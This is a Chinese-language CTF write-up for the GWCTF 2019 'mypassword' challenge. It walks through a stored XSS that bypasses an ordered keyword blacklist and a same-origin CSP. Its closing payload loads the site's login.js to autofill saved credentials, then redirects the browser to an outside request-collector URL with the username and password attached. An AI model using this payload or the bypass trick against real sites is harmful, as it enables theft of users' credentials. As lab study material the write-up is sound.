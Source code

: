 # \[GWCTF 2019]mypassword

## \[GWCTF 2019]mypassword

## 考点

* CSP
* 利用逻辑错误绕过正则黑名单

## wp

注册登录两个功能，F12看到有个login.js，意思是把用户信息写到cookie里面

```javascript
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}
}
```

登录后有个反馈功能feedback.php，在list.php可以看到反馈内容，应该是个xss打cookie。

提交`<svg onload=alert(1)>` 返回的内容是`< =alert(1)>` 是有过滤的。

feedback.php有注释，可以看到过滤的内容，`str_ireplace` 为不区分大小写进行替换

```php
if(is_array($feedback)){
    echo "<script>alert('反馈不合法');</script>";
    return false;}
$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
foreach ($blacklist as $val) {
    while(true){
        if(stripos($feedback,$val) !== false){
            $feedback = str_ireplace($val,"",$feedback);}else{break;}}}		    
```

在访问/content.php?id=1的时候发现返回头中有CSP，这个CSP策略的意思是只能执行本页面的js语句。

```javascript
Content-Security-Policy: default-src 'self';script-src 'unsafe-inline' 'self'
```

看那个过滤，实际上有个逻辑错误，例如我想使用getElement这个关键字，那就在getElement中插入黑名单中getElement之后的关键字，document或cookie，提交getdocumentElement就可以得到getElement了。因为这里循环是按照顺序循环的，只有目标关键字在黑名单之前就可以绕过了。

然后就可以构造payload了，首先需要执行login.js才能把账号密码写入cookie，执行login.js还需要username和password的input，都用cookie套一下，在feedback.php发送，在list.php查看，在vps接收即可，或者在（~~https://beeceptor.com/~~）在http://requestbin.cn/接收

```
http://requestbin.cn:80/peri0d
```

```
<inpcookieut type="text" name="username"></inpcookieut>
<inpcookieut type="text" name="password"></inpcookieut>
<scricookiept scookierc="./js/login.js"></scricookiept>
<scricookiept>
	var uname = documcookieent.getElemcookieentsByName("username")[0].value;
	var passwd = documcookieent.getElemcookieentsByName("password")[0].value;
	var res = uname + " " + passwd;
	documcookieent.locacookietion="http://requestbin.cn:80/peri0d/?res="+res;
</scricookiept>
```

## 小结

1. xss的payload要根据加载的js写
2. https://beeceptor.com/就试试http://requestbin.cn/
